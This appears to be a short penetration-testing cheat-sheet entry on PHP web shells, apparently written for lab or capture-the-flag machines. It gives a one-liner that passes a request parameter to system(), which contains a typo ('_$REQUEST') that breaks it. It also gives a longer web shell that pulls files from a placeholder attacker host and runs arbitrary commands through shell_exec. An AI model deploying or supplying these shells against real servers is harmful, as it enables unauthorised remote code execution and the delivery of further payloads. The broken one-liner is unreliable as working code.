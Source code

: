 * One liner for code execution:
```php
<?php system(_$REQUEST['cmd']); ?> 
```
* Code snippet taken from Ippsecs video, allows code execution and file upload
	* Good for Windows machines -> makes file upload much easier
	* reference bastard notes for usage
```php
<?php
 if (isset($_REQUEST['fupload'])){
  file_put_contents($_REQUEST['fupload'], file_get_contents("http://ipgoeshere:portbeingservedon/" . $_REQUEST['fupload']));
  };
 if (isset($_REQUEST['fexec'])){
  echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
  };
  ?>
```